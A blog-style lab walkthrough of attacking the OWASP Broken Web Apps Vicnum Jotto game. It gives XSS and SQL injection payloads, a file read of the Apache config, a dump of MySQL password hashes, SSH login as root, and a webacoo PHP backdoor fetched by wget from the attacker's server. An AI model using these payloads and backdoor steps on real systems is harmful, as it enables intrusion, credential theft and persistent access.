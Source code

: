 ```yaml
---
layout: post
title: OWASP Broken Web Apps Vicnum - Jotto
---
```


I started off just playing the game to see what happens moving through the workflow.  After guessing the word in 43 tries I noticed that the count is being passed from the success page over to the scoreboard, much like its sibling application this ends up being something we can modify in transit.

The second time round I made a wordlist of the second word to guess once I figured out it had an r in it:

{% highlight bash %}
cewl -w wordlist.txt -v -d 0 -m 5 http://www.wordbyletter.com/words_starting_with.php?q=r
{% endhighlight %}

Luckily it did end up starting with an r, that way I didn't have to play the annoying game again just to modify my number of guesses.

After getting to the scoreboard page I noticed that the name get parameter is being injected into an HTML string on the page, try making this the name:

{% highlight javascript %}
<script>alert(1)</script>
{% endhighlight %}

into the URL for the name GET parameter worked.

The name parameter also seems like it might be vulnerable to SQLi

Doing a quick:

{% highlight sql %}
' or 1 = 1 #
{% endhighlight %}

shows query results for all users on the page, so we know its injectable.

Now to get something a little more juicy:
{% highlight sql %}
union all select load_file('/etc/apache2/apache2.conf'),2,3,4#
{% endhighlight %}

This will return the entire apache web config in its entirety.

I suppose just like its sibling lets break in:

{% highlight sql %}
'  union all select user,password,3,4 from mysql.user#
{% endhighlight %}

As in the sibling application this page can be used to get root's password: https://www.hashkiller.co.uk/ which found the root password in question: owaspbwa, this matches the readme when the VM boots up.

Next lets ssh to the VM:

{% highlight  bash %}
ssh root@ip
pw: owaspbwa
{% endhighlight %}

Now for a persisted backdoor, webacoo worked for the last one, why not use it again.

{% highlight bash %}
webacoo -g -o bd.php
{% endhighlight %}

Next fire up SimpleHTTPServer in Parrot and change directory to the web root /var/www on the VM and run:

{% highlight bash %}
wget http://iptoparrot:8000/bd.php
{% endhighlight %}

Then to test things out:

{% highlight bash %}
webacoo -t -u http://ip/bd.php
{% endhighlight %}